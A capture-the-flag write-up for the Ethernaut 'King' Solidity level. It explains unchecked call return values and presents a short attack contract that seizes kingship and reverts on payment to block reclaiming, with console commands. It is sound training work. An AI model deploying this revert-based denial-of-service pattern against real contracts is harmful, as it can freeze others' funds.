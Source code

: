 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Challenge's message.

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
Such a fun game. Your goal is to break it.
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


At the beginning of the contract, there are defined variables such as king, owner and prize. Also, these variables are assigned when the contract is created in the payable constructor. After the definition of king and king's prize, there is a specific function called ``receive()``that works to remand the new king's prize to the ex-king address and update the new king address and king's prize when someone is the owner or sends more than the king's ether to the contract. And finally, there is a function which returns us to current king address.

As with every challenge, this contract has some potential issues. One of these issues like forgot to check the external process status. Here we go...

# Subverting

Before talking about my attack contract, I want to explain some topics. If you know about the vulnerability of uncheck calls returns value, you would skip this part.

### Calls In Solidity 

There are a number of ways of performing external calls in Solidity. Sending ether to external accounts is commonly performed via the ``transfer`` method. However, the ``send`` function can also be used, and for more versatile external calls the ``call`` **opcode** can be directly employed in Solidity. You can start an external calls in the contract with send ether to other contracts by

  - ``transfer`` :  (2300 gas, throws error)
  - ``send`` : (2300 gas, returns bool)
  - ``call`` : (forward all gas or set gas, returns bool)

this methods. Here we can see that when we use send or call to send ether or perform any transactions, it returns a boolean value i.e. true or false.

### Security Issue

 The ``call`` and ``send`` functions return a boolean indicating whether the call succeeded or failed. As a result, if the call return value is not checked, execution will resume even if the called contract throws an exception. If the call fails accidentally or an attacker forces the call to fail, this may cause unexpected behavior in the subsequent program logic.
 

 ```solidity
 
contract Lotto {

    bool public payedOut = false;
    address public winner;
    uint public winAmount;

    // ... extra functionality here

    function sendToWinner() public {
        require(!payedOut);
        winner.send(winAmount);
        payedOut = true;
    }

    function withdrawLeftOver() public {
        require(payedOut);
        msg.sender.send(this.balance);
    }
}
 
 ```
 This represents a Lotto-like contract, where a ``winner`` receives ``winAmount`` of ether, which typically leaves a little left over for anyone to withdraw.

The vulnerability exists on sendToWinner() function, where a send is used without checking the response. In this trivial example, a winner whose transaction fails (either by running out of gas or by being a contract that intentionally throws in the fallback function) allows ``payedOut`` to be set to ``true`` regardless of whether ether was sent or not. In this case, **anyone can withdraw the winner’s winnings via the withdrawLeftOver function**.

## Attack Contract

Here is my attack contract.

```solidity
pragma solidity ^0.8.0;

import './King.sol';

contract Attack{

    King target;

    constructor(address payable _target) payable{
        target = King(_target);
        address(target).call{value: msg.value}("");
    }

    fallback()external{
        revert("Hack ponzi");
    }
}
```

First thing first is as always solidity version and import our target contract's file into attack contract. After that, get the instance of target contract and call it with sending more than king's prize in the constructor. When the ``call`` method works, the target contract sends ether to our contract and our fallback() function revert to transaction. In this way, we'll stay king of the target contract every time.


### Attack Senario

Check the king's prize.

```shell

await contract.prize()
i {negative: 0, words: Array(3), length: 2, red: null}
length
: 
2
negative
: 
0
red
: 
null
words
: 
(3) [13008896, 14901161, boş]
[[Prototype]]
: 
Object
```
The king's prize is 13008896. Let's convert to wei form.

```shell
await web3.utils.fromWei('13008896', 'ether')
'0.000000000013008896'
```
When we deploy the attack contract, we must send higher than this wei.



**_by wasny0ps_**
